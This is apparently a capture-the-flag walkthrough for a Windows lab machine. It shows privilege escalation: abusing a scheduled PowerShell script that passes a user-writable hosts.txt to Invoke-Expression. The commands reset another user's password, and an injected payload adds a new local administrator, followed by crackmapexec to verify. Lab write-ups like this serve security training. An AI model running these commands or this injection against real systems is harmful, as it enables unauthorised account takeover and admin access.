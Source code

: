 You have a reverse shell on the third and final target.

Start with some manual enumeration and hopefully come up with something workable!

#Winrm_Shell 
If you do some recon manually you'll find  a directory called `scripts` with two files:

![[Enumeration-20250501104418383.webp]]

The most interesting one is a `powershell` script named ``checkservers.ps1`` that belong to `administrator`.

Looking into the code you find out:
1. The script reads a file named `hosts.txt` owned by `brittanycr`.
	`get-content C:\Users\brittanycr\hosts.txt`
2. The ps1 script is executed every x time consuming the hosts.txt file and passing it’s content to `Invoke-Expression`.
```
# Read the File with the Hosts every cycle, this way to can add/remove hosts
# from the list without touching the script/scheduled task,
# also hash/comment (#) out any hosts that are going for maintenance or are down.
get-content C:\Users\brittanycr\hosts.txt | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = "Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue"
    Invoke-Expression $p     <====================

```


> [!NOTE] Note
> So if we gain access to `brittanycr` account by changing it’s password and changing the content of `hosts.txt` file to our payload, we can get it executed as `Administrator`


## Enumerate privileges

#Winrm_Shell 
Run the following command to the privilege of the current user:

```
whoami /priv
```

![[Enumeration-20250501102940688.webp]]
Look at the groups.


```
whoami /groups
```

![[Enumeration-20250501103711570.webp]]

According to Microsoft.

![[Enumeration-20250501103845862.webp]]

It means that we can change user passwords.
## Changing brittanycr‘s password

#Winrm_Shell 
```
net user brittanycr SuperPassword123
```

![[Enumeration-20250501110149062.webp]]

> [!Note]
> You won't be able to log in via Evil-winrm with these credentials.

## Login to SMB

#Attacking_Machine 
Try to login via SMB.

```
smbclient //windcorp.thm0/users -U brittanycr
```

![[Enumeration-20250501111220432.webp]]

Go to brittanycr's directory and list the files.

```
cd brittanycr
dir
```

![[Enumeration-20250501111545260.webp]]

## Changing the content of `hosts.txt`

#smbclient  
- Download the hosts.txt file.
```
get hosts.txt
```

#Attacking_Machine 
- Add a new user to hosts.txt.
```
net user robert P@ss123 /add; 
net localgroup Administrators robert /add
```

#smbclient 
- Upload the file.
```
mput hosts.txt
```

## crackmapexec

#Attacking_Machine 
Run crackmapexec.

```
cme winrm  fire.windcorp.thm -u robert -p P@ss123 
```
